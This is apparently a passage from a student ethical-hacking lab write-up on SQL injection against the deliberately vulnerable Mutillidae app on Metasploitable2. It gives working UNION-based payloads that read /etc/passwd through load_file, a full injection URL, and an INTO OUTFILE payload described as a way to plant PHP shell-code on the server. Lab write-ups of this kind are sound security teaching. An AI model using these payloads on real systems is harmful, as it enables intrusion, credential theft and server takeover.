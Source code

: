 ## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/CodesWithRobi/EH-LAB08-SQL-Injection/assets/130537166/506229d4-6a7a-40dc-8c37-9b2848031885)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
